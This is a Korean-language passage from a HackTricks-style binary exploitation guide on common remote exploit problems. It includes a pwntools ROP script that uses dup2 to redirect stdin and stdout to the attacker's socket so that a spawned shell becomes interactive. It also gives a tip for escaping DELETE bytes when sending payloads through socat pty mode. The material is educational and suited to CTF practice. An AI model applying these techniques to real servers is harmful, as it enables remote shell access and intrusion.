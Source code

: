 # 일반적인 익스플로잇 문제

{{#include ../../banners/hacktricks-training.md}}

## 원격 익스플로잇에서의 FD

예를 들어 **`system('/bin/sh')`**를 호출하는 익스플로잇을 원격 서버에 전송할 때, 이는 서버 프로세스에서 실행되며, `/bin/sh`는 stdin(FD: `0`)에서 입력을 기대하고 stdout과 stderr(FDs `1` 및 `2`)에 출력을 인쇄합니다. 따라서 공격자는 셸과 상호작용할 수 없습니다.

이를 해결하는 방법은 서버가 시작될 때 **FD 번호 `3`**(청취용)을 생성하고, 그 다음에 당신의 연결이 **FD 번호 `4`**에 있을 것이라고 가정하는 것입니다. 따라서 시스템 호출 **`dup2`**를 사용하여 stdin(FD 0)과 stdout(FD 1)을 FD 4(공격자의 연결)로 복제할 수 있으므로, 셸이 실행되면 연락할 수 있게 됩니다.

[**여기서 익스플로잇 예제**](https://ir0nstone.gitbook.io/notes/types/stack/exploiting-over-sockets/exploit):
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```
## Socat & pty

socat은 이미 `stdin`과 `stdout`을 소켓으로 전송한다는 점에 유의하세요. 그러나 `pty` 모드는 **DELETE 문자를 포함합니다**. 따라서 `\x7f` ( `DELETE` -)를 보내면 **당신의 익스플로잇의 이전 문자를 삭제합니다**.

이를 우회하기 위해서는 **전송되는 모든 `\x7f` 앞에 이스케이프 문자 `\x16`을 추가해야 합니다.**

**여기에서** [**이 동작의 예를 찾을 수 있습니다**](https://ir0nstone.gitbook.io/hackthebox/challenges/pwn/dream-diary-chapter-1/unlink-exploit)**.**

{{#include ../../banners/hacktricks-training.md}}
